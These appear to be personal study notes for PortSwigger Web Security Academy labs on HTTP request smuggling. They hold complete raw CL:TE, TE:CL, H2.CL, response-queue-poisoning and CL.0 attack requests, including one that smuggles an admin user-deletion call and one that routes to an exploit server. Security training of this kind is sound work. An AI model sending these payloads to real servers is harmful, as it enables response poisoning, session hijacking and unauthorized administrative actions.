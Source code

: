 ```yaml
---
description: Request Smuggling Practitioner Labs Notes
---
```


# 🏴‍☠️ RequestSmuggling

Make sure to change to write HTTP protocol (1.1 or 2) and disable update content-length header

* Launch Smuggle Probe and H2 Probe. Might miss CL.0
* Try sending extra fast request, ctrl+space
  * Make a separate tab in repeater and spam to see weird requests
    * Should happen within 10 seconds of holding down request
* Double check endings of smuggled request
  * You need to include the trailing sequence `\r\n\r` following the final 0. TE:CL
* Make sure content-length is appropriate for attack and doesn't eat into the smuggled request

### CL:TE Diff Response Testing

* Don't count the 0 that ends the chunk in the leading hex number(byte count)

```
POST / HTTP/1.1
Host: 0aff001903b2238cc1550dd0002a001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 46
Transfer-Encoding: chunked

b
q=smuggling
0

GET /404 HTTP/1.1
Foo: X
```

### TE:CL Differential Response Testing

* Two Trailing NewLines
* Content-Length: 4 for the initial Request header (assuming two digit hex number payload)
  * disable update content-length in repeater
* Hex number to start POST payload = Following bytes-7
  * States the bytelength of upcoming "chunk"
  * Starting from Following HTTP Method to include the last newline

```
POST / HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

9f
POST /404 HTTP/1.1
Host: 0ada00f40447df13c3aec9dc00bf0037.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

```

#### Capturing Request in Comment

* Spam requests until you get two normal responses in a row
  * Means request was sent in between
  * START SHORT then lengthen content-length
    * Use headers to simplify padding to avoid 500/400 errors when repeating
    * Smuggling req content-length can start corrupting 3rd request for smuggle
      * Should only have two different responses

### H2 Settings

* Launch H2 Smuggle Probe to scan
  * Won't show up through normal active scan
  * Dual Path shows up on EVERY LAB (Not just Request Smuggling)

| H2 Lab                                      | Request Smuggler Result                                                            |
| ------------------------------------------- | ---------------------------------------------------------------------------------- |
| H2.CL                                       | <ul><li>CL.0 desync:h2CL|GET /favicon.ico</li><li>Dual path supported v2</li></ul> |
| HTTP/2 Request Smuggling via CLRF Injection | <ul><li>Dual path supported v2</li></ul>                                           |
| HTTP/2 Request Splitting via CLRF Injection | <ul><li>Dual path supported v2</li></ul>                                           |



* Repeater Options disable Update Content Length
* Repeater Options enable Allow HTTP/2 ALPN override
* Inspector -> Request Attributes -> Protocol HTTP/2
* Remove any weird `:HEADER Value` that Burp may have added when testing
* Test full exploit on self, especially if poisoning for XSS
  * Quick refresh and send very necessary

**H2CL**

```
POST / HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
Content-Length: 0

GET /resources HTTP/1.1 
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net 
Content-Length: 5 

x=1
```

**Inspector tab of editing H2 Header for CRLF**

!\[CRLF Injection in H2C.png]\([https://github.com/budgy11/BurpNotes/blob/main/.gitbook/assets/CRLF%20Injection%20in%20H2C.png](.gitbook/assets/CRLF%20Injection%20in%20H2C.png))

### Response Queue Poisoning

* More cookies
* Repeat the poisoning request until response is interesting (may take spamming)

```
POST / HTTP/2
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net
Cookie: session=aNKjt644Drm0JgFqrdvkYm1yWY3GjLCi
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Transfer-Encoding: chunked
Content-Length: 91

0

GET /404 HTTP/1.1
Host: 0a0500b303418726c3414233008400b2.web-security-academy.net

```

*   Also possible in HTTP/2 Headers

    * May break the website formatting? stay frosty&#x20;

    !\[Request Splitting H2 Headers.png]\([https://github.com/budgy11/BurpNotes/blob/main/.gitbook/assets/Request%20Splitting%20H2%20Headers.png](.gitbook/assets/Request%20Splitting%20H2%20Headers.png))

### CL.0

* Endpoint specific vulnerability
* Send group in sequence, single connection.
* Connection: keep-alive
* Request 1

```
POST /resources/images/blog.svg HTTP/1.1
Host: 0acc000204a8e462c1707b3e00c00090.web-security-academy.net
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0acc000204a8e462c1707b3e00c00090.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: Keep-alive
Content-Length: 50

GET /admin/delete?username=carlos HTTP/1.1
Foo: x
```

* Request 2 is just a valid request
  * may not be necessary during testing?
* Similar technique may work with Host header to bypass endpoint restrictions
